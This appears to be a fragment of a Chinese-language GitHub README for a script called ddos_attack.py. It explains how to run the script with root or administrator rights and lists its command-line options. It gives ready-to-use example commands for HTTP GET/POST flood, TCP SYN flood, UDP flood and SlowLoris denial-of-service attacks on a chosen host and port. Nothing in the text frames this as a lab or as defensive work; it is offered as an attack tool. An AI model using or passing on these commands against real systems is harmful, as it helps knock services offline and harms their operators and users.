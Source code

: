 - **Linux/macOS**：使用`sudo`运行脚本
  ```
  sudo python3 ddos_attack.py
  ```
  
- **macOS特别说明**：在macOS上，未使用root权限运行时可能会遇到 `Permission denied: could not open /dev/bpf0` 错误。这是因为Scapy需要访问Berkeley Packet Filter (BPF)设备。

- **Windows**：以管理员身份运行命令提示符

### 其他攻击类型

HTTP、TCP、UDP和SlowLoris攻击不需要管理员/root权限，可以直接运行：
```
python3 ddos_attack.py
```

## 使用方法

### 交互式菜单

直接运行脚本，将显示交互式菜单：
```
python3 ddos_attack.py
```

### 命令行参数

也可以使用命令行参数启动攻击：
```
python3 ddos_attack.py -t TARGET -p PORT -a ATTACK_TYPE -d DURATION -T THREADS
```

参数说明：
- `-t, --target`：目标IP地址或域名（支持完整URL，如https://example.com）
- `-p, --port`：目标端口
- `-a, --attack`：攻击类型（http, tcp, udp, syn, slowloris）
- `-d, --duration`：攻击持续时间（秒）
- `-T, --threads`：线程数（默认：10）
- `-s, --size`：数据包/POST数据大小（默认：1024）
- `-u, --user-agent`：HTTP请求的User-Agent（默认：Mozilla/5.0）
- `--scapy`：使用Scapy进行高级SYN攻击（仅适用于syn攻击类型）
- `--post`：使用POST请求而非GET请求（仅适用于http攻击类型）
- `--socket-count`：SlowLoris攻击的每线程连接数（默认：150）
- `--check`：在攻击前检查目标可达性
- `--save`：自动保存攻击结果

示例：
```
# HTTP GET洪水攻击
python3 ddos_attack.py -t example.com -p 80 -a http -d 30 -T 20

# HTTP POST洪水攻击
python3 ddos_attack.py -t example.com -p 80 -a http -d 30 -T 20 --post -s 4096

# 也支持完整URL
python3 ddos_attack.py -t https://example.com -p 80 -a http -d 30 -T 20

# TCP SYN洪水攻击（带目标可达性检查）
python3 ddos_attack.py -t 192.168.1.1 -p 443 -a tcp -d 30 -T 50 --check

# UDP洪水攻击
python3 ddos_attack.py -t 192.168.1.1 -p 53 -a udp -d 30 -T 100 -s 2048

# SlowLoris攻击
python3 ddos_attack.py -t example.com -p 80 -a slowloris -d 60 -T 5 --socket-count 200

```
